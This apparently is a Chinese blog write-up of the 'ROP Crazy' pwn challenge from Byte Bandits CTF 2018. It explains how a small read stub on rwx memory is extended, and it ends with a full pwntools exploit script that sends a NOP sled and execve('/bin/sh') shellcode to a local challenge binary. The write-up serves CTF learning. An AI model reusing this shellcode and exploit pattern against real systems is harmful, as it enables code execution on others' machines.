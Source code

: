 ```yaml
---
layout:		post
title:		Byte Bandits CTF 2018部分writeup
author:		wooy0ung
tags:		pwn
category: 	writeup
---
```



>[索引目录]  
>0x001 ROP Crazy  
<!-- more -->


## 0x001 ROP Crazy

程序开辟了0x1000的rwx内存空间，并将
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x001-001.png)

首地址被打印出来了
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x001-002.png)

再读8 byte，明显不够放入shellcode，做rop修改读入长度为0xff byte
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x001-003.png)

exp.py
```
from pwn import *

context.arch = "amd64"

s = process("./gg")
elf = ELF("./gg")

sh_addr = int(s.recvline(),16)

s.recv(0x1000)

s.send(p64(sh_addr))

p = asm("""
xor rdx,rdx
mov dl,0xff
syscall
nop
""")

s.send(p)

p = "\x90"*0xc8
p += asm("""
xor rdx,rdx
mov dl,0xff
syscall
nop
mov rbx,0x0068732f6e69622f
push rbx
push rsp
pop rdi
xor rsi,rsi
push rsi
pop rdx
push rdx
pop rax
mov al,0x3b
syscall
mov al,0x3c
xor rdi,rdi
syscall
""")

s.send(p)
s.interactive()
```